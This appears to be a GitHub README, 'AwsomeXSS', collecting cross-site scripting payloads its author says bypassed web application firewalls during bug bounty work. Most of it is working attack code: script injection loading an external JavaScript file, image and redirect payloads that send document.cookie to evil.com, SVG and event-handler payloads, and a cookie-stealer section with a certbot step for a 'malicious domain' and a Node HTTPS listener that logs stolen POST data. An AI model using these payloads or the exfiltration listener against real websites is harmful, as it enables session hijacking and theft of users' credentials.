 # AwsomeXSS
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

1. **Inject External JavaScript without `<script>` Tag:**
   
```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://basedygt.github.io/xss.js'; document.head.appendChild(script);">
```

2. **Data Exfiltration through Image Source (when CSP is disabled):**

```html
<img src="https://evil.com/?data=" + encodeURIComponent(document.cookie)">
```

Vulnerable when

- Absence of Content-Security-Policy header in the response
- Presence of Content-Security-Policy header with a value of `default-src` or `none`

3. **CSS-Based XSS:**

```css
body { background-image: url('javascript:alert("XSS")'); }
```

4. **SVG XSS:**

```html
<svg/onload=alert(document.domain)>
```

5. **Event Handlers to Execute Payload:**

```html
<button onclick="alert('XSS')">Click Me</button>
```

6. **JavaScript Protocol Handler:**
   
```html
<a href="javascript:alert('XSS')">Click Me</a>
```


### Cookie Stealer Example:

- `GET` based interception (easiest and best to show Poc):

```js
// XSS cookie stealer POC
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```

- `POST` based interception (I am not responsible for what you do with this info):

1. Get ssl certitficates for your malicious domain: `sudo certbot certonly --standalone -d domain.tld`
2. Setup the listener with ssl certificates

```node
const https = require('https');
const fs = require('fs');

// Load the certificate and key
const cert = fs.readFileSync('cert.pem');
const key = fs.readFileSync('privkey.pem');

// Create the HTTPS server
const server = https.createServer({ cert, key }, (req, res) => {
  if (req.method === 'POST') {
    let data = '';
    req.on('data', (chunk) => {
      data += chunk;
    });
    req.on('end', () => {
      console.log(`Received data: ${data}`);
      res.writeHead(200, { 'Content-Type': 'text/plain' });
      res.end('Data received successfully!');
    });
  } else {
    res.writeHead(405, { 'Content-Type': 'text/plain' });
    res.end('Method not allowed!');
  }
});

// Listen on port 8080
server.listen(8080, () => {
  console.log('Server listening on port 8080');
});
```

